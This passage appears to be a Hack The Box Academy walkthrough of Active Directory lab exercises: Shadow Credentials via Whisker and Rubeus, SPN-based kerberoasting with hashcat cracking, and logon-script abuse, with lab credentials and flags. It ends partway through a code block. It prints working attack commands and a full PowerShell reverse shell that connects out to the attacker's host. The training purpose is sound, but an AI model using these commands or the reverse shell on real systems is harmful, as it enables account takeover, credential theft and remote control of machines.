## Acronyms Used in Writeups

|Acronym|Meaning|
|:-:|:-:|
|STMIP|Spawned Target Machine IP Address|
|STMPO|Spawned Target Machine Port|
|PMVPN|Personal Machine with a Connection to the Academy's VPN|
|PWNIP|Pwnbox IP Address (or PMVPN IP Address)|
|PWNPO|Pwnbox Port (or PMVPN Port)|

# Shadow Credentials

## Question 1

### "Compromise Gabriel using Jeffry's account and read the flag located at \\LAB-DC\Gabriel\gabriel.txt"

After students have spawned the target, they need to connect via RDP with the provided credentials `jeffry:Music001`.

```shell
xfreerdp /v:STMIP /u:jeffry /p:Music001 /dynamic-resolution /drive:.,student
```

Once connected, they need to open `PowerShell`, navigate to `C:\Tools`, and import `PowerView.ps1`:

```powershell
cd C:\Tools
Import-Module .\PowerView.ps1
```

```powershell-session
PS C:\Users\jeffry> cd C:\Tools
PS C:\Tools> Import-Module .\PowerView.ps1
```

Students need to identify a user whose `msDS-KeyCredentialLink` attribute is not empty using `Get-DomainUser` and its filter:

```powershell
Get-DomainUser -Filter '(msDS-KeyCredentialLink=*)'
```



Subsequently, students need to proceed with querying the ACL of `jeffry` on `gabriel` using `Get-DomainObjectAcl`, they will find that the user jeffry has `GenericAll` rights over gabriel:

```powershell
$userSID = (Get-DomainUser -Identity jeffry).objectsid
Get-DomainObjectACL -Identity gabriel | ?{$_.SecurityIdentifier -eq $userSID}
```
/


Students will proceed to use `Whisker` to perform the `Shadow Credentials attack` targetting the user `gabriel`:

```powershell
.\Whisker.exe add /target:gabriel
```



Subsequently, they will have to use the generated `Rubeus.exe` command from the output to request a ticket-granting ticket by adding the `/nowrap` parameter to disable line-wrapping in the output of the base64 blob:

```powershell
.\Rubeus.exe asktgt /user:gabriel /certificate:MIIJ <SNIP> ICB9A= /password:"qT3TMRpZFvgok9ke" /domain:lab.local /dc:LAB-DC.lab.local /getcredentials /show /nowrap
```



Right after requesting the ticket-granting ticket, students will proceed to create a sacrificial logon session by spawning `PowerShell` using Rubeus and its `createnetonly` action:

```powershell
.\Rubeus.exe createnetonly /program:powershell.exe /show
```



Within the newly spawned `PowerShell` window, students will perform a Pass-the-Ticket attack with the obtained base64 ticket earlier:

```powershelll
.\Rubeus.exe ptt /ticket:doIGJj <SNIP> mxvY2Fs
```



Right after importing the ticket in memory, students can grab the flag located at `\\LAB-DC\Gabriel\`:

```powershell
type \\LAB-DC\Gabriel\gabriel.txt
```



Answer: `HTB{Sha2_Cr3denti1al_ATTACK}`

## Question 2

### "Compromise the account PCTEST001 and read the flag located at \\LAB-DC\PCSHARES\pcflag.txt"

After students have spawned the target, they need to execute bloodhound with the provided credentials `gabriel:Godisgood001`.

```bash
bloodhound-python -C All -u 'gabriel' -p 'Godisgood001' -d LAB-DC.lab.local -ns 10.129.87.87 --zip
```

Students need to start `Neo4j` in one terminal tab and in another BloodHound on their workstations and upload the archive to BloodHound. The password for neo4j is `neo4j:neo4j` on the workstation in Academy.

```shell
sudo neo4j console
bloodhound
```



Subsequently, students will have to enumerate the `First Degree Object Control`, where they will find that the user jeffry has `GenericWrite` over the user `martha`:



Using the same approach, they will enumerate the user `martha` and her `First Degree Object Control`, where they will come to know that the user has `AddKeyCredentialLink` over the `PCTEST001` computer:



With the obtained information, students need to return to the RDP session gained on previous question, change their directory to `C:\Tools`, import `PowerView.ps1`, and proceed to utilize the session as `jeffry` to add a fake `ServicePrincipalName` attribute on the user `martha`:

```powershell
cd C:\Tools
Import-Module .\PowerView.ps1
$SecPassword = ConvertTo-SecureString 'Music001' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('LAB\jeffry', $SecPassword)
Set-DomainObject -Credential $Cred -Identity martha -SET @{serviceprincipalname='nonexistent/BLAHBLAH'}
```



Subsequently, students will proceed to perform a kerberoasting attack using `Rubeus`:

```powershell
.\Rubeus.exe kerberoast /user:martha /format:hashcat /nowrap
```



With the obtained hash, they will utilize their workstations for further password cracking to reveal the plaintext password using `rockyou.txt` as a dictionary list:

```shell
echo -n '$krb5tgs$23$*martha$lab.local$nonexistent/BLAHBLAH@lab.local*$3751A7EBFEABA207D5B1421BA41AC081$0AE13A7F174A1CB45805465F2A8D5677AD7C970E22B5DA48C9242DBE432EE15CDDD6A01FFB6974FB00C659681C7BA647A237053FC434D3157983553CAAA3F3B421724CA1E9099625643C206D3ED411397BA6D3556BD7C011B92B2D743462C7289646B6FE72D5B247F0418FFCB57AD161733AC5C4CB19BE953519D345C8C36C49007F59374E35667E8D935151099AB6CAE81BD2B75211A330E35BC36047CBB1E70F0609F645DDFCFD9940CF5885ACC2E908CEF6FC9B3F1EB84A1C7535C390DEA3A4019D5F4841F249290DCD355A673763170D52319B43E19AB3248D63B677ACC96437FB98D6EEEF8013FE9593015172924FC6136FECBC496A3648108FB79351991C76929AD42A776191B2A28E36E963793C154ECF8E8F9C78BE0931B8A4E4335E136C8B11B23FBE8AB60A53BD094FC6CA8CFA5E958E71710D18F684F0A1D1C52273F1992C9E4830BA4DEEDE67FAF69208DEEAD023A04509FBE63B5997D4DE97B7E69EB46F68B9BF116323BB439E2DE2AA829075BDC69CC4351B32A23B8863AA8E201E4FEDDBD23295BA447F08A2E6A73A8A2B9A4137AED5DEC26FBA614FF9A3D744886F60E8C325F6F136FB7592BEB121596858ADD51EF7B13DFBAD4C542B993BC0C00B55FE4E9AB50D2DEA9577809E029AA47E605387A92858770EEE9A90574BB8E3DA36D2FE9E6DA39AAD4C04FEE69AC1E11AF0761CB60535D8F1C86CDDD358AFE826C46ECCA1437D53C1D63B305CDD699AC5D2BF088D46A7BE6BFDF9E00CB6AB24621A6FCE1CCEF497BA5EF72B6D5E9F56FB772D7BFE0D972A3C5054C177BCB95F154DA248BFD71F0FECEE0CEEA3149112EF8544CE159CC54B050252839BC978BA16C63E3F1AE45F82255AFC12B371CC8DE27EA5FE1CE73229FC4B934B312A6C155920374146197FA91EB70185DCF476BF93D3A3E670CD46B995CC476600ADAFC36861D66536F8E02B2EE2445BEC3537F6107F779F4BDE66D22200EDA79C37F423F47848238C2598DB4D581FE4BF414DF9B0D27C6386628A2626B50EB75D693A8AF6BBA258AF7FB86E05A8ED7044957054E6A20C2589433BEB3EC8DB2082D745E25BF73BDAA565110A12FCC69B32E1E2B87BEBF5C763106FDAA89FBC641901DDFC6C0F3B1D7FC8081059216CF365F9A084D26E2937FC49E8A61EE6C8CBA673B86007DF36BF72E03031DC3E2637B1982D61B841A2E8D4C0F28BA71EA1C278C552BC9C1D389EF489464903B1CA47996F62B13D96583E8316FE6E20E8A0C82EEC049C6ED5CDF00BD439E840E5F2A87340023F2DED4AC4F0CC21555374CB53100CA877F39E102A00C0F95EBF4DE4218414202B8EAE3E1A01FEC8B0A607DF1B3B063555C07EB576FE189D3952D0D1E9BB0A776B5F8D2B9D2486DC5B1A56722D909A6BCD339A71307DF7D55C0E33B5395A647A69D82DE250EB883ABD82D1B33BACB199A1531DD75860C83A0DAE73187040AE613340CB24CAB8DAED20DC20F5EEEBD387FCE9A1F1A5D90AB7423A8FC8BC1AA1846CAD3202E893610DF3C4848B0F6F23152B12D71970EE0981A25862DD9ABAA5BC506D43783FB73734D79D1AAFBBCD3942E5771A36FBF33324774DEA9838C1321D73E5915627E9F9FD49D8F04F3FAA1096ABD7559871879E51BB365A42B09234C7943CB91CF3450B524E670B342E3EAD00800B5EE755F3BE032F359FB107619046F1894FDC211E222C8941E82134E9A76D096BBD16604BECEEE269ECCAEA4DA1D7F10EEA2DDAD7CE7E4AFA187BFFC6364A3E5F8FA5B035F293CE6BEC101B6FA83EA0C096F219931647A6907EC5FA2BF7F6971D391887E3BB30B8130533AAA8924C48F4E9C9ECE1254BD44C2C268A4BD0A35EC05FE898FFC32CD0B49BF5AA30FB97018AAF8F753E74EBC4E33BAA18051925B890C340A6173F38A99EFFA9E3A2B5D2E065' > martha.hash

hashcat -m 13100 martha.hash /usr/share/wordlists/rockyou.txt
```



With the recovered plaintext password, students will return to the RDP session and utilize `Rubeus` to spawn a sacrificial `PowerShell` process.

```powershell
.\Rubeus.exe createnetonly /program:powershell /show /username:martha /password:Winner77 /domain:lab.local
```



In the newly spawned `PowerShell` window, students will request a ticket-granting ticket and import it into memory:

```powershell
.\Rubeus.exe asktgt /user:martha /password:Winner77 /domain:lab.local /ptt /nowrap
```



Subsequently, students will use `Whisker` to perform the `Shadow Credentials` attack targeting the `PCTEST001` computer account:

```powershell
.\Whisker.exe add /target:PCTEST001$
```



Using the generated command in the output from `Whisker`, students will have to add `/ptt` to import the ticket into memory.

```powershell
Rubeus.exe asktgt /user:PCTEST001$ /certificate:MIIJ0A <SNIP> wICB9A= /password:"mcbNdLd0tz0vpsQI" /domain:lab.local /dc:LAB-DC.lab.local /getcredentials /show /ptt
```



Having imported the ticket into memory, they can proceed to grab the flag from `\\LAB-DC\PCSHARES\`:



```powershell
type \\LAB-DC\PCSHARES\pcflag.txt
```

Answer: `HTB{THIS_1$_JUST_@_FL4G}`

# Logon Scripts

## Question 1

### "Abuse the rights of the user 'Julio' and submit the flag in 'C:\Users\Wayne\Desktop\flag.txt'. (Use relative paths not absolute ones.)"

After spawning the target, students will proceed to query the `NETLOGON` share, where they will find a directory named `WaynesScripts`:

```shell
smbclient //SMTIP/NETLOGON -U julio%'SecurePassJul!08' -c ls
```



Subsequently, students will enumerate the permissions over the directory in the `NETLOGON` share, where they will come to know that the user `julio` has read, write, and execute permissions:

```shell
smbcacls //STMIP/NETLOGON /WaynesScripts -U julio%'SecurePassJul!08'
```



They will reuse the provided base64-encoded reverse shell script:

```shell
python3 -c 'import base64; print(base64.b64encode((r"""$LHOST = "PWNIP"; $LPORT = PWNPO; $TCPClient = New-Object Net.Sockets.TCPClient($LHOST, $LPORT); $NetworkStream = $TCPClient.GetStream(); $StreamReader = New-Object IO.StreamReader($NetworkStream); $StreamWriter = New-Object IO.StreamWriter($NetworkStream); $StreamWriter.AutoFlush = $true; $Buffer = New-Object System.Byte[] 1024; while ($TCPClient.Connected) { while ($NetworkStream.DataAvailable) { $RawData = $NetworkStream.Read($Buffer, 0, $Buffer.Length); $Code = ([text.encoding]::UTF8).GetString($Buffer, 0, $RawData -1) }; if ($TCPClient.Connected -and $Code.Length -gt 1) { $Output = try { Invoke-Expression ($Code) 2>&1 } catch { $_ }; $StreamWriter.Write("$Output`n"); $Code = $null } }; $TCPClient.Close(); $NetworkStream.Close(); $StreamReader.Close(); $StreamWriter.Close()""").encode("utf-16-le")).decode())'
```



Students need to create a `logonScript.bat` where they are going to utilize the base64 encoded reverse shell:

```shell
